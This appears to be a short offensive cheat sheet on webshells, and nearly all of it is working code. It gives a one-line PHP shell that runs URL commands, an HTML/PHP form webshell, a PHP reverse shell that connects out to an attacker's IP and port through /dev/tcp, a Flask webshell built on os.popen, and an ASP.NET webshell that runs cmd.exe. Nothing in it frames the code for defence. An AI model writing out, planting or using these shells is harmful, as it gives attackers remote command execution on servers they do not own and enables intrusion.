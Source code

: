 A **webshell** is a malicious script uploaded to a web server to enable remote command execution. 


## Basic PHP Command Prompt

A simple PHP script can be used to execute system commands via a GET request:

```php
<?php system($_GET['cmd']); ?>
```

This allows to execute commands by passing them in the URL, such as:

```
http://example.com/shell.php?cmd=whoami
```

## PHP Webshell

A more interactive **webshell** can be created using an HTML form to execute commands:

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

This script provides a simple web interface to execute system commands by entering them into the form field.

## PHP Reverse Shell
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<own_ip>/<port> 0>&1'"); ?>
```

## Python Webshell

```python
import os
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    return 'Send a command using ?cmd=your_command'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

This Python webshell uses Flask to run system commands via HTTP requests.

## ASP Webshell

```
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e)
    {
        string cmd = Request["cmd"];
        if (!string.IsNullOrEmpty(cmd))
        {
            Process proc = new Process();
            proc.StartInfo.FileName = "cmd.exe";
            proc.StartInfo.Arguments = "/c " + cmd;
            proc.StartInfo.UseShellExecute = false;
            proc.StartInfo.RedirectStandardOutput = true;
            proc.Start();
            Response.Write("<pre>" + proc.StandardOutput.ReadToEnd() + "</pre>");
        }
    }
</script>
```

This ASP webshell executes system commands using `cmd.exe` and displays the output.
